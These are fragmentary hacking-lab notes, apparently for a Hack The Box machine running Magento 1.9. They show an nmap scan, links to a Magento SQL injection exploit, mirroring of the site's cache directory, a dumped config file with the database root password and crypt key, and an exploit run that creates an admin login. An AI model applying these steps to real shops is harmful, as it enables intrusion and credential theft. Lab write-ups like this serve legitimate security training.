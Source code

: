 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


![](2021-02-01-10-43-41.png)



https://www.exploit-db.com/exploits/37977

![](2021-02-01-11-11-23.png)

https://raw.githubusercontent.com/ambionics/magento-exploits/master/magento-sqli.py

![](2021-02-01-11-30-22.png)

![](2021-02-01-11-31-11.png)

wget -m -np http://10.10.10.140/var/cache/


![](2021-02-01-11-40-26.png)


<config>
    <global>
        <install>
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
        </install>
        <crypt>
            <key><![CDATA[b355a9e0cd018d3f7f03607141518419]]></key>
        </crypt>
        <disable_local_modules>false</disable_local_modules>
        <resources>
            <db>
                <table_prefix><![CDATA[]]></table_prefix>
            </db>
            <default_setup>
                <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
                    <active>1</active>
                </connection>
            </default_setup>
        </resources>
        <session_save><![CDATA[files]]></session_save>
    </global>
    <admin>
        <routers>
            <adminhtml>
                <args>
                    <frontName><![CDATA[admin]]></frontName>
                </args>
            </adminhtml>
        </routers>
    </admin>
</config>



mysql
root:fMVWh7bDHpgZkyfqQXreTjU9


![](2021-02-02-10-42-54.png)

![](2021-02-02-10-53-45.png)

tried:
admin:123123
root:fMVWh7bDHpgZkyfqQXreTjU9

![](2021-02-02-10-57-07.png)

kali@kali:~/htb/boxes/swagshop/10.10.10.140$ /usr/bin/python2 /home/kali/htb/boxes/swagshop/10.10.10.140/37977.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
WORKED
Check http://10.10.10.140/admin with creds forme:forme

![](2021-02-02-10-57-52.png)

![](2021-02-02-10-58-04.png)

Magento ver. 1.9.0.0

Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution php/webapps/37811.py

mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'


http://10.10.10.140/app/etc/local.xml

![](2021-02-02-11-39-03.png)